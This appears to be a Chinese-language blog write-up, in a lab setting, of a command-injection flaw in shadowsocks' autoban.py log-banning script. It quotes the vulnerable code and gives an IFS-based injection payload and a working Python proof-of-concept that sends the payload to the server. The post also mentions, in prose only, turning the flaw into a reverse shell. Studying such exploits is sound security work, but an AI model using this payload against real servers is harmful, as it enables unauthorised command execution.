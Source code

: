```yaml
---
title: shadowsocks远程命令执行
date: 2017-11-24 21:51:36
tags: shadowsocks
---
```


利用条件：
1. 靶机上的`shadowsocks`是从`github`上`clone`的
2. 靶机开启了`autoban.py`脚本


---
问题出在`shadowsocks-master/utils/autoban.py`中
```
#!/usr/bin/python
# -*- coding: utf-8 -*-

# Copyright (c) 2015 clowwindy
#
# Permission is hereby granted, free of charge, to any person obtaining a copy
# of this software and associated documentation files (the "Software"), to deal
# in the Software without restriction, including without limitation the rights
# to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
# copies of the Software, and to permit persons to whom the Software is
# furnished to do so, subject to the following conditions:
#
# The above copyright notice and this permission notice shall be included in
# all copies or substantial portions of the Software.
#
# THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
# IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
# FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
# AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
# LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
# OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
# SOFTWARE.

from __future__ import absolute_import, division, print_function, \
    with_statement

import os
import sys
import argparse

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='See README')
    parser.add_argument('-c', '--count', default=3, type=int,
                        help='with how many failure times it should be '
                             'considered as an attack')
    config = parser.parse_args()
    ips = {}
    banned = set()
    for line in sys.stdin:
        if 'can not parse header when' in line:
            ip = line.split()[-1].split(':')[-2]
            if ip not in ips:
                ips[ip] = 1
                print(ip)
                sys.stdout.flush()
            else:
                ips[ip] += 1
            if ip not in banned and ips[ip] >= config.count:
                banned.add(ip)
                cmd = 'iptables -A INPUT -s %s -j DROP' % ip
                print(cmd, file=sys.stderr)
                sys.stderr.flush()
                os.system(cmd)
```
从sys.stdin读取输入，然后判断是否包含`can not parse header when`字样，如果有就进行截断
```
ip = line.split()[-1].split(':')[-2]
```
`split()`是采用默认空格为分隔符
当同一个`ip`出现的次数超过了设定的值（默认为3）,就会直接把它代入执行。
```
if ip not in banned and ips[ip] >= config.count:
                banned.add(ip)
                cmd = 'iptables -A INPUT -s %s -j DROP' % ip
                print(cmd, file=sys.stderr)
                sys.stderr.flush()
                os.system(cmd)
```

---
在靶机`192.168.32.51`上
下载`github`上的`shadowsocks`，使用
```
python ./shadowsocks/server.py -p 12345 -k 12345 --log-file /tmp/ss.log -d start
```
即可开启ss的服务
```
-p	端口
-k	口令
--log-file	日志文件
-d start	后台启动
```

客户端可用
```
python ./shadowsocks/local.py -s 192.168.32.51 -p 12345 -l 8090 -k 12345 
```
登录
```
-s	服务器地址
-p	服务器端口
-l	本地端口
-k	服务器登录口令
```
也可采用加载本地配置文件的方式启动
```
python ./shadowsocks/local.py -c /etc/shadowsocks.json
```

发现客户端对发送内容加密后才发送的。

ss服务器在接收到客户端发送过来的请求后，会对请求进行解析。关键解析函数`shadowsocks/common.py`中`parse_header(data)`函数在判断请求目标地址类型为域名后，会将其写入日志文件。

根据前面的分析，`payload`中是不能出现空格和`:`的，`:`可以避免，但是想执行命令，空格是必须的。
这里使用Linux中自带的IFS环境变量产生空格。
```
IFS(Internal Field Seprator)，即内部域分隔符，完整定义是“The shell uses the value stored in IFS, which is the space, tab, and newline characters by default, to delimit words for the read and set commands, when parsing output from command substitution, and when performing variable substituioin.”。
```
```
IFS=$' \t\n'  
```
使用`||`和` ${}`，尝试写入一个文件。
```
can not parse header when ||echo${IFS%??}'hacked！'>testhahaha.txt:\n
```

现在只需模拟客户端，把`payload`写到请求地址中就可以了。
```
# coding:utf-8
import socket
import sys,os
sys.path.insert(0, os.path.join(os.path.dirname(__file__), '../'))
import cryptor 

head = """can not parse header when ||echo${IFS%??}'hacked！'>testhahaha.txt:\n"""
target = ("03%02x%s0050" % (len(head), head.encode('hex'))).decode('hex') # 参考socks5协议, 03表示target是域名，然后两字节域名长度，再是目的地址，最后两字节是port

for i in range(3):
    c = cryptor.Cryptor("12345", "aes-256-cfb")
    tosend = c.encrypt(target)
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.32.51', 12345))
    s.send(tosend)
    s.close()
```
把这个py文件放入shadowsocks文件夹中运行即可。、

在服务器端执行
```
python ./shadowsocks/utils/autoban.py < /tmp/ss.log
```
在当前文件夹下就会生成`testhahaha.txt`文档,证明命令执行成功


实际使用时，可以结合`curl`、`wget`命令从服务器下载文件，然后反弹shell。


----
参考：
https://paper.tuisec.win/detail/63207b0184fe59e
http://foreversong.cn/archives/730
https://x41-dsec.de/lab/advisories/x41-2017-008-shadowsocks/
https://github.com/shadowsocks/shadowsocks/tree/master
[SOCKS5协议[rfc1928]](https://www.cnblogs.com/happyhotty/articles/2181522.html)
[bash ${ } 用法总结 ](http://unixboy.iteye.com/blog/499329)